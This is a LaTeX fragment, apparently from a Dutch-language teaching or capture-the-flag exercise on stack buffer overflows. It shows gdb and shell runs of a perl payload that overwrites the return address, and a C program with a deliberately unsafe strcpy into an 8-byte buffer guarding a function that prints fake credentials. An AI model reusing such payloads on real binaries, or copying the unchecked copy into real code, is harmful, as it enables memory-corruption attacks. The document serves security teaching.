 \begin{enumerate}
\begin{enumerate}
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``maaktnietuit'' ``\$(perl -e `print ``\textbackslash{}x81\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``maaktnietuit'' ``\$(perl -e `print ``\textbackslash{}x81\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
